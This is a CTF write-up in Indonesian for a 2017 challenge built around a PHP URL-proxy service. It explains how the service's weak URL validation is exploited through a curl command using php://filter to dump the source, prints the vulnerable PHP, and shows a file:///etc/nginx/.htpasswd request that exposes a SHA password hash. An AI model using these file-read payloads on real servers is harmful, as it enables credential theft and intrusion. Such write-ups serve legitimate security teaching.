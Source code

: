 ```yaml
---
layout: post
title: 'Writeup FIT FUNFEST 2017 : Proxy'
description: Writeup EncryptedELF FIT FUNFEST CTF
modified: 'Thu Mar 16 2017 07:00:00 GMT+0700 (WIB)'
category: Crypto
tags: FIT CTF
imagefeature: /images/fit-funfest.png
mathjax: false
chart: null
comments: true
featured: false
published: true
private: 'false'
---
```



### Soal

```
http://128.199.66.146:12121/proxy/
```

### Solusi

Diberikan website seperti layanan proxy kita bisa mengakses website lain melalui
layanan tersebut kemudian kita memanfaatkan Wrappers yang tidak di blacklist
untuk membaca file config dan menemukan folder secret yang di authentikasi
dengan Basic HTTP Authentication kami melakukan decrpyt password .htpasswd
yang di gunakan algoritma {SHA} kemudian kami mengauthentikasi dan
mendapatkan flag

Setelah melakukan analisa kepada layanan yang tersedia yaitu proxy untuk
membuka website di input field nya ada placeholder http atau https tapi ternyata ada beberapa wrappers yang masih bisa di gunakan karena tidak di disable atau di blacklist. Pertama kita bisa mendapatkan source code layanan proxy dalam base64 dan melakukan decode untuk membaca source code aslinya dengan command

`curl http://128.199.66.146:12121/proxy/?url=php://filter/convert.base64-encode/resource=index.php | base64 -d > index.php`

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
$url = $_GET['url'];
if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
die('Not a valid URL');
}
$content = file_get_contents($url);
die($content);
}
?>
<header>
<title>Proxy</title>
<link
href='http://fonts.googleapis.com/css?family=Open+Sans+Condensed:300'
rel='stylesheet' type='text/css'>
<style type="text/css">
.form-style-8{
font-family: 'Open Sans Condensed', arial, sans;
width: 500px;
padding: 30px;
background: #FFFFFF;
margin: 50px auto;
box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-moz-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
-webkit-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.22);
}
.form-style-8 h2{
background: #4D4D4D;
text-transform: uppercase;
font-family: 'Open Sans Condensed', sans-serif;
color: #797979;
font-size: 18px;
font-weight: 100;
padding: 20px;
margin: -30px -30px 30px -30px;}
.form-style-8 input[type="text"],
.form-style-8 input[type="date"],
.form-style-8 input[type="datetime"],
.form-style-8 input[type="email"],
.form-style-8 input[type="number"],
.form-style-8 input[type="search"],
.form-style-8 input[type="time"],
.form-style-8 input[type="url"],
.form-style-8 input[type="password"],
.form-style-8 textarea,
.form-style-8 select
{
box-sizing: border-box;
-webkit-box-sizing: border-box;
-moz-box-sizing: border-box;
outline: none;
display: block;
width: 100%;
padding: 7px;
border: none;
border-bottom: 1px solid #ddd;
background: transparent;
margin-bottom: 10px;
font: 16px Arial, Helvetica, sans-serif;
height: 45px;
}
.form-style-8 textarea{
resize:none;
overflow: hidden;
}
.form-style-8 input[type="button"],
.form-style-8 input[type="submit"]{
-moz-box-shadow: inset 0px 1px 0px 0px #45D6D6;
-webkit-box-shadow: inset 0px 1px 0px 0px #45D6D6;
box-shadow: inset 0px 1px 0px 0px #45D6D6;
background-color: #2CBBBB;
border: 1px solid #27A0A0;
display: inline-block;
cursor: pointer;
color: #FFFFFF;
font-family: 'Open Sans Condensed', sans-serif;font-size: 14px;
padding: 8px 18px;
text-decoration: none;
text-transform: uppercase;
}
.form-style-8 input[type="button"]:hover,
.form-style-8 input[type="submit"]:hover {
background:linear-gradient(to bottom, #34CACA 5%, #30C9C9 100%);
background-color:#34CACA;
}
</style>
</header>
<body>
<div class="form-style-8">
<h2>PROXY</h2>
<form>
<input type="text" name="url" placeholder="http:// or https://" />
</form>
</div>
</body>
```

Kurang lebih source code tersebut seperti di atas 

`http://128.199.66.146:12121/proxy/index.php?url=file:///etc/nginx/.htpasswd`

isinya seperti ini 

`fit-uksw:{SHA}NABfMvw51MY+i1z+THOgpy9oysc=`

